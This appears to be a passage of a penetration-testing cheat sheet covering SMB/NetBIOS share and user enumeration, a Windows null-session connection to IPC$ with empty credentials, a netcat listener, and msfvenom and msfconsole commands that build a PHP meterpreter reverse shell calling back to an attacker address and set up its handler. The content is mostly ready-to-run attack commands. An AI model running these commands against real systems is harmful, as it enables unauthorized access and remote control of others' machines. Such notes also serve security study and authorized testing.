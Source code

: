 <u>Notations</u>

```
-S ==> Enumerate the Shares of a Machine
-U ==> Enumerate the Users of a Machine
-P ==> Let us see the Password Policy if wwe want to mount the network
       [Authentication Attacks]
```

### <b>Enumerate Using `nmblookup`</b>

To perform the same operations of `nbstat`, we can use `nmblookup` with the same command line switch:

<b>Command Syntax</b>

`nmblookup -A <target-IP-Address>`


### <b>Enumerate using `NET VIEW`</b>

Once an attacker knows that a machine has File Server service running, they can enumerate the shares by using the `NET VIEW` command

<b>Command Syntax</b>

`NET VIEW <target-IP>`

### <b>Checking Null Sessions with Windows</u>

To connect, we have to type the following command in a Windows shell:

`NET USE \\<target-IP-address>\IPC$ '' /u:''`

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

# <b><u>Reverse Connection</b></u>


## <u>Netcat</u>

<b>Basic `Netcat` Command</b>

`nc -lnvp <port>` [In the Attacker Machine]

## <u>Metasploit</u>

<b>Generate PHP reverse shell [msfvenom]</b>

`msfvenom -p php/meterpreter_reverse_tcp lhost=192.168.0.1 lport=4444 -o meterpreter.php`

```
$ msfconsole 
msf5> use exploit/multi/handler
msf5 exploit(handler)> set payload windows/meterpreter/reverse_tcp
msf5 exploit(handler)> set payload php/meterpreter_reverse_tcp
msf5 exploit(handler)> set lhost 192.168.0.1
msf5 exploit(handler)> set lport 4444
msf5 exploit(handler)> exploit
```
